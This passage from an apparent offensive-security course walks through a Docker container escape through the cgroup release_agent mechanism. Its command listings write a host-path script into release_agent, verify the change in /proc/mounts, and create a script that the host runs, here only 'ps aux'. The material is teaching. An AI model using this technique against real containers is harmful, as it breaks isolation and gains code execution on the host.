 > Listing 56 - Enabling the cgroup notification

With the notifications enabled, we can specify the command to execute in the **release_agent** file again. Once again, we'll use the **cmd** file, which we'll create later in the container root.

```
victim_release_agent:~# echo "$host_path/cmd" > /tmp/cgrp/release_agent

victim_release_agent:~# cat /tmp/cgrp/release_agent
/var/lib/docker/overlay2/236bf7ed500f09c2cda6b5c672d085f871c7734ba01ed75ee817775df232dc88/diff/cmd
```

> Listing 57 - Writing the command to execute to release_agent

At this point, we've enabled the notification and set the command to be executed in the **release_agent**. We can verify that the kernel accepted this by checking **/proc/mounts** again.

```
victim_release_agent:~# cat /proc/mounts  | grep devices
cgroup /sys/fs/cgroup/devices cgroup rw,nosuid,nodev,noexec,relatime,devices,release_agent=/var/lib/docker/overlay2/236bf7ed500f09c2cda6b5c672d085f871c7734ba01ed75ee817775df232dc88/diff/cmd 0 0
cgroup /tmp/cgrp cgroup rw,relatime,devices,release_agent=/var/lib/docker/overlay2/236bf7ed500f09c2cda6b5c672d085f871c7734ba01ed75ee817775df232dc88/diff/cmd 0 0
victim_release_agent:~#
```

> Listing 58 - Verifying release_agent

Even though we weren't able to write to the **release_agent** file in the **sys** file system, we were able to still change the **release_agent** configuration. This confirms that the kernel was able to read the configuration. and accept the modification.

Next, we need to create the **cmd** script that will be executed by the host. We'll start with the standard shebang then run the **ps aux** command, but redirect the _stdout_ to a file named **output** in the containers root directory. Remember, to reference the containers root directory, we need to use the **$host_path** variable. Finally, we'll use the **chmod** binary to make the script executable.

```
victim_release_agent:~# echo '#!/bin/sh' > /cmd

victim_release_agent:~# echo "ps aux > $host_path/output" >> /cmd

victim_release_agent:~# chmod a+x /cmd
```

> Listing 59 - Creating Executable Script

At this point, the setup is complete. The only remaining part is to start a process in our custom cgroup. Once the process completes, our script should be executed. For now, we'll run **sleep 30** in the background (by specifying **&** at the end of the command). Once executed, we'll move the sleep process into the cgroup. We can get the process ID of the previous command by using the **$!** variable. We'll add the **sleep** command to the cgroup by adding it to the **/tmp/cgrp/x/cgroup.procs** file.

After 30 seconds, our script should have executed, and we can check the **/output** file for the output of the **ps aux** command.
